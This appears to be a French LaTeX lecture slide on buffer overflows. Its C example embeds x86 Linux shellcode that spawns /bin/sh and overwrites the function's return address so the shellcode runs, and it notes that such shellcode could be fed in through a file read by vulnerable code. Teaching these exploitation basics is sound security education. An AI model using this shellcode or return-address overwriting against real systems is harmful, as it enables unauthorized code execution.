\begin{frame}[fragile]
  \frametitle{Comment tester notre code}%
Le code ex\'ecutable ci-dessus peut \^etre plac\'e dans une variable automatique~:
\begin{verbatim}
void bar(void){
  int foo, *pfoo = &foo ;
  char shellcode[] = "\xE8\x10\x00\x00\x00\x2F\x62\x69\x6E" 
                     "\x2F\x73\x68\x00\x00\x00\x00\x00\x00"
                     "\x00\x00\x00\x5B\x89\x5B\x08\xB8\x0B"
                     "\x00\x00\x00\x8D\x4B\x08\x8D\x53\x0C" 
                     "\xCD\x80\xBB\x00\x00\x00\x00\xB8\x01"
                     "\x00\x00\x00\xCD\x80" ;
/* canoniquement void (*foo)()=(void *) shellcode; foo();*/
/* mais pour notre propos, \'ecrasons l'adresse de retour */
  *(pfoo+5) =  shellcode ; /* heureusement, C est laxiste */
}

int main(void){ bar() ; return 0 ; }
\end{verbatim}
Le shellcode pourrait \^etre stock\'e dans un fichier texte lu par le code
vuln\'erable.
\end{frame}
